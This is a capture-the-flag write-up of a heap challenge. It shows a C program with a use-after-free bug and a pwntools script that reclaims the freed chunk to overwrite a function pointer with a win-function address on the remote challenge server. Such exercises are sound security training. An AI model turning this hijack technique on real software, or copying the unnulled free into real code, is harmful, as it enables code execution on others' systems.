 # Notepad

Right away, we can see that there is a convenient win function to call to get the flag, so it is ret2win.

### Use After Free Vulnerability
Malloc/heap & free

After free(note), note not set to NULL, so still can access the memory.

So that's why we need to create a Notepad, so we can write to the place where note -> read is, and then call read content to call win.


chal.c file:

```
//gcc chal.c -no-pie -o chal
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <unistd.h>

void win(){ // address: 401196
    puts("You win! Here is flag:");
    system("cat flag.txt");
}
struct Note {
    char title[32];
    void (*read)(struct Note*); //declares a function pointer, func is read, returns nothing
    char content[1024];
};

struct Notepad {
    char name[64];
};

void readNoteContent(struct Note* note) {
    printf("%s\n", note->content); // prints the content
}

struct Note* newNote() {
    struct Note* note = malloc(sizeof(struct Note));
    puts("Enter note title:");
    fgets(note->title, 30, stdin);
    puts("Enter note content:");
    fgets(note->content, 1020, stdin);
    note->read = readNoteContent; // plan: overwrite read note content? but fgets no buffer overflow
    return note;
}


struct Notepad* newNotepad() {
    struct Notepad* notepad = malloc(sizeof(struct Notepad));
    puts("Enter notepad name:");
    fgets(notepad->name, 60, stdin);
    return notepad;
}

int main() {
    struct Notepad* notepad = NULL;
    struct Note* note = NULL;
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    while (1){
        puts("1: Create a new notepad\n2: Create a new note\n3: Read note content\n4: Throw away note\n0: Quit");
        char order = getc(stdin);  // UNSAFE!!! CAN PUT HERE
        /*
        Create note
        Throw away note
        still can read note (sus)
        
         */
        getchar();

        switch (order) {
            case '1':
                notepad = newNotepad();
                puts("Notepad created.");
                break;
            case '2':
                note = newNote();
                break;
            case '3':
                if (!note) {
                    puts("You do not have a note.");
                    break;
                }
                note->read(note);
                break;
            case '4':
                if (!note) {
                    puts("You do not have a note.");
                    break;
                }
                free(note);
                break;
            case '0':
            default:
                goto fin;
        }
    }
fin:
    puts("Bye!");
    return 0;
}
```

### Solution:
Solve steps:
1. Create new note
2. Delete note
3. Create new notepad (write the `win` function addr to it)
4. Read note content

Offset is 32 because we want to write to the read function, and title is 32 bytes.

```
struct Note {
    char title[32];
    void (*read)(struct Note*); //declares a function pointer, func is read, returns nothing
    char content[1024];
};
```
Python Solution using pwntools

```
from pwn import *
filename = "chal"
# context.binary =elf = ELF(filename)
# p = process()
# gdb.attach(p)
# input()
p = remote('188.166.198.74',30011)

OFFSET = 32

p.sendlineafter("Quit", "2")
p.sendlineafter("Enter note title:","test")
p.sendlineafter("Enter note content:","blahaj")

p.sendlineafter("Quit", "4")
p.sendlineafter("Quit", "1")

# p.sendlineafter("Enter notepad name:", b"A"*OFFSET + p64(elf.sym["win"]))
p.sendlineafter("Enter notepad name:", b"A"*OFFSET + b'\x96\x11@\x00\x00\x00\x00\x00')

p.sendlineafter("Quit", "3")

# get the flag
while True: 
    print(p.recvline())

#p.interactive()
```
